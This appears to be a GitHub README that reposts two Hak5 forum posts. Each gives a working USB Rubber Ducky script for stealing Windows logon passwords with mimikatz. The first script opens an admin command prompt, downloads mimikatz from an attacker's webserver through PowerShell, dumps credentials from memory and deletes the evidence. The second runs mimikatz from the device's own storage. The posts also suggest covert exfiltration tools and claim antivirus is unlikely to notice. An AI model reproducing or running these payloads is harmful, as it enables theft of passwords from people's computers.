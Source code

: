 The following payload was written by redmeatuk. 

The payload's forum is located here: 

http://forums.hak5.org/index.php?/topic/29657-payload-ducky-script-using-mimikatz-to-dump-passwords-from-memory/

# From this point on is a copy paste of redmeatuk's post in the forum. 
Hello all,

 

This is a Ducky script I knocked up to use the wonderful mimikatz tool. This tool allows you to dump hashes including the clear text passwords for wdigest from memory.

 

http://blog.gentilki...mikatz/minidump

http://www.room362.c...rds-with-a.html

 

Requirements -:

 

- Webserver to host Mimikatz binary for your architecture (I tested this on Windows 7 Home Premium 64-bit) you need the ones in the 'alpha' subfolder of the zip/7z file for your architecture

- Local user needs to be an administrator account/privs

 

What does it do ?

 

1. It spawns a command shell with administrator privileges

2. It downloads mimikatz from a webserver using powershell

3. Using mimikatz to dump wdigest passwords from memory

4. Cleans up by deleting the binaries it downloaded

 

It could be improved by using sneaky data exfil techniques to transfer the data encrypted offsite e.g. socat, ncat SSL, stunnel etc If you have a firmware installed that lets you store files you could copy the output to the SD card. Also mimikatz file could be encoded and run through powershell to generate the executable instead of 'wget'ing' the file.

 

You may need to adjust timings in this script to play nice on your machine(s).

 

Script -:

```
REM mimikatz ducky script to dump local wdigest passwords from memory using mimikatz (local user needs to be an administrator/have admin privs)
DELAY 3000
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 300
ENTER
STRING powershell (new-object System.Net.WebClient).DownloadFile('http://<replace me with webserver ip/host>/mimikatz.exe','%TEMP%\mimikatz.exe')
DELAY 300
ENTER
DELAY 3000
STRING %TEMP%\mimikatz.exe
DELAY 300
ENTER
DELAY 3000
STRING privilege::debug
DELAY 300
ENTER
DELAY 1000
STRING sekurlsa::logonPasswords full
DELAY 300
ENTER
DELAY 1000
STRING exit
DELAY 300
ENTER
DELAY 100
STRING del %TEMP%\mimikatz.exe
DELAY 300
ENTER
```

# Now, a similar payload using a ducky EXE running script, again copy paste. 

Woo! Finally posting my own working payload! Thanks to overwraith and readmeatuk for their base code that I just tied together. This basically does exactly what readmeatuk's code does except you won't need an internet connection.

Requirements:

1) Twin duck firmware or whatever it's called that lets you have a usb storage as well as firing inject.bin upon insertion.

2) mimikatz.exe (either 32bit or 64 bit depending on target environment) placed at the root of that DUCKY drive (drive name MUST be "DUCKY"). Get it here: http://blog.gentilkiwi.com/mimikatz and use the exe from the "alpha" subdirectory

 

Notes: I tried to do it with procdump but it takes a LONG time to write out the 36meg output file to the card and the window for procdump basically freezes and you have to forcibly kill it. You could probably write the .dmp file to a local disk and then copy it to the ducky but it's still going to take awhile. I don't think that many AV programs are looking for mimikatz so it's fairly safe,.

 

This script could be optimized a little, it's a bit slow and it leaves two windows open. You want to leave the mimikatz window open though because after this f$#%^$ker executes you'll be staring at plaintext passwords for the logged on users!@!$#@
```
REM Author: shutin who just tied two other authors together: 
REM overwraith for the exe running stuff and redmeatuk who brought mimikatz to the party
REM Name: Runmimikatz.txt
DEFAULT_DELAY 75
DELAY 3000
REM get a cmd prompt this way because it's admin and we need that for mimikatz
CONTROL ESCAPE
DELAY 1000
STRING cmd
DELAY 1000
REM the admin part booyah
CTRL-SHIFT ENTER
DELAY 1000
ALT y
DELAY 300
ENTER

REM Change directories because System32 appears to be protected. 
STRING CD %TEMP%
ENTER

REM Make batch file that waits for SD card to mount. 
REM Delete batch file if already exists
STRING erase /Q DuckyWait.bat
ENTER
STRING copy con DuckyWait.bat
ENTER
REM DuckyWait.bat contents
STRING :while1
ENTER
STRING for /f %%d in ('wmic volume get driveletter^, label ^| findstr "DUCKY"') do set myd=%%d
ENTER
STRING if Exist %myd% (
ENTER
STRING goto break
ENTER
STRING )
ENTER
STRING timeout /t 30
ENTER
STRING goto while1
ENTER
STRING :break
ENTER
REM 
REM FINALLY ACTUALLY RUN AN EXE 
STRING START %myd%\mimikatz.exe
ENTER
CONTROL z
ENTER
STRING DuckyWait.bat
ENTER
DELAY 1000
ENTER
DELAY 3000
STRING privilege::debug
DELAY 300
ENTER
DELAY 1000
STRING sekurlsa::logonPasswords full
DELAY 300
ENTER
```